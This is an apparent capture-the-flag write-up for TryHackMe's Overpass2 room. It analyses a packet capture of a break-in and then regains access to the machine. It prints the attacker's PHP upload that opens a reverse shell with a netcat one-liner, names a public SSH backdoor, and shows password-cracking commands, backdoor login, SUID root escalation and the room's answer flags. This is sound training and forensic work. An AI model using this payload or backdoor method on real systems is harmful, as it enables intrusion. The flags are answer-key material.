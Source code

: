 # Overpass2 - Linux - Easy

## Task-1

### What was the URL of the page they used to upload a reverse shell?

Checking for a POST request would do the trick.

`/development/`

### What payload did the attacker use to gain access?

Checking the same POST request dumping all the ascii text from the request can make this spotting a bit easier.

```
)n)ºHEô
.@@VTÀ¨ªÀ¨ªºvPÃró:
'ö©ó
Â¦+5P,ÆPOST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--
```

### What password did the attacker use to privesc?

Checking the above payload for reverse shell we can know that port used is **4242**. Attacker IP is **192.168.170.145** and the machine that was attacked has IP **192.168.170.159**. Filtering packets using the following info in wireshark will make it bit easier to spot.

`ip.src==192.168.170.159 && ip.dst==192.168.170.145 && tcp.port==4242`

Just follow the first TCP stream now and we get the following:

`whenevernoteartinstant`

### How did the attacker establish persistence?

Checking the TCP stream we got in above it clearly mentions using git clone.

`git clone https://github.com/NinjaJc01/ssh-backdoor`

### Using the fasttrack wordlist, how many of the system passwords were crackable?

In the TCP stream we are following we also get to see the */etc/shadow* file contents. Just copy paste them into a file and run **john** on the file.

*Well the answer is **4**.*


## Task-2

### What's the default hash for the backdoor?

Just check the var in https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go

`bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

### What's the hardcoded salt for the backdoor?

Simply check the function call with some static value

`1c362db832f3f864c8c2fe05f2002a05`

### What was the hash that the attacker used? - go back to the PCAP for this!

Can be found in the TCP stream for nc. Suplied to backdoor using *./backdoor -a <some_value>*

`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

### Crack the hash using rockyou and a cracking tool of your choice. What's the password?

Using hashcat here might help. It uses module 1710.so for this type of cracking where we have salted hash. we have both our hash and salt. Making a file hc with the following contents:

`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05`

Here it is written in form of *hash*:*salt* as per needed by hashcat. Using the following command to run hashcat and crack it.

`hashcat -m 1710 -o ch htc rockyou.txt` 

where **htc** is the file with hash:salt and **ch** is the output file after cracking is done. Once done just check the **ch** file for cracked hash value.

`november16`


## Task-3

### The attacker defaced the website. What message did they leave as a heading? 

`H4ck3d by CooctusClan`

### Using the information you've found previously, hack your way back in!

Let's start with nmap scan for the machine.

`nmap 10.10.222.177 -oN nmap_scan`

It shows 3 ports are open: **22**, **80** and **2222**. Through our wireshark packet capture we know that 2222 is a ssh port being used by the **ssh-backdoor**. Let's just use that backdoor to get in.

`ssh james@10.10.222.117 -p 2222`

Using password `november16` the one we got from cracking that hash, we got ourselves in.

### User.txt

This is easy... once we get in: `cat /home/james/user.txt`

`thm{d119b4fa8c497ddb0525f7ad200e6567}`


### Root.txt

Checked using find command for any suid binaries I could exploit it was in vain. Reading the hint on tryhackme gave a bit of direction. All I needed to do was `ls -al`

There it is `.suid_bash`. Executing it by giving *-p* we get ourselves root. Lastly checking the `/root/root.txt` file we get ourselves the final flag for the machine.

`thm{d53b2684f169360bb9606c333873144d}`

